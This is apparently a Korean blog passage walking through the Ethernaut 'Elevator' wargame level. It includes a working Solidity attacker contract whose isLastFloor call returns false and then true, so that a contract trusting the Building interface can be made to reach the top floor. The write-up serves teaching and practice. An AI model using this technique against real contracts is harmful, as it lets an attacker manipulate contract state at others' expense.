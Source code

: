 {% highlight javascript %}
if (! building.isLastFloor(_floor)) {
    floor = _floor;
    top = building.isLastFloor(floor);
}
{% endhighlight %}

`! building.isLastFloor(_floor)`가 true이면 조건문으로 들어갑니다. 이것은 isLastFloor가 false이면
마지막 층이 몇 층인지 상관없이 마지막 층을 나타내는 bool top이 true가 될 수 없는 것처럼 보입니다.

그런데 여기서 간과한 문제가 있습니다. isLastFloor는 인터페이스로 정의되어 있고 구현하기 나름이라는 점입니다. 또 위의 조건을 잘 보면 isLastFloor를 두 번 호출하고 있습니다.
다시 말해서 isLastFloor의 두 번째 호출해서도 첫 번째와 동일한 값을 리턴할 것이라고 생각하는 것이죠.

{% highlight javascript %}
interface Building {
    function isLastFloor(uint) view public returns (bool);
}
{% endhighlight %}

만약에 isLastFloor를 첫 번째에는 false, 이렇게 해서 조건문으로 들어간 다음에, 조건문 내에서, 두 번째에는 true를 리턴하게 만들면 어떻게 될까요? 이렇게 하면
모든 층에 갈 수 있는 Elevator 컨트랙트가 되는 것입니다(토글 스위치를 생각하면 될 것 같습니다).

{% highlight javascript %}
pragma solidity ^0.4.25;

interface Building {
    function isLastFloor(uint) view public returns (bool);
}

contract HackBuilding is Building {

    address public owner;
    Elevator public elevator;
    bool public toggleFlag;

    constructor (address _addr) public {
        owner = msg.sender;
        elevator = Elevator(_addr);
    }

     modifier onlyOwner {
        require (msg.sender == owner);
        _;
    }

    function isLastFloor(uint _floor) view public returns (bool) {
        _floor;
        if (!toggleFlag) {
            toggleFlag = true;
            return false;
        } else {
            toggleFlag = false;
            return true;
        }
    }

    function reachTheTopFloor() external onlyOwner {
        elevator.goTo(100);
    }
}

contract Elevator {
    function goTo(uint _floor) public;
}
{% endhighlight %}
